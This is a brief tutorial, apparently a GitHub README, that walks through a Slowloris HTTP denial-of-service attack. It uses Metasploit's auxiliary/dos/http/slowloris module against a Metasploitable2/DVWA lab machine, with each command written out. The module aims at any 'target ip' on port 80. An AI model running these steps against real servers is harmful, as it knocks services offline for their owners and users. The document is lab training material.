 # Slowloris
- ## There are two ways of use it one install [slowloris](https://github.com/gkbrk/slowloris) and another we can use it from metasploit framework

## we will perform it on [metasploitable2](https://sourceforge.net/projects/metasploitable/) on http service (DVWA)

### 1.run metasploitable framework
- ```bash
    msfconsole
  ```
### 2.search for slowloris
- ```bash
    search slowloris
  ```
### 3.choose auxiliary/dos/http/slowloris
- ```bash
    use auxiliary/dos/http/slowloris
  ```
### 4.set rhost <your metasploitable machine ip or target ip>
- ```bash
    set RHOST <target ip>
  ```
### 5.set rport (we will down the http so we will choose port 80)
- ```bash
    set RPORT 80
  ```
### 6.check if everything is set correctly
- ```bash
    show options
  ```
### 7.exploit the attack 
- ```bash
    exploit
  ```
## How check the dvwa of m2 machine by write the ip in browser
- if it is continues loading then it's worked
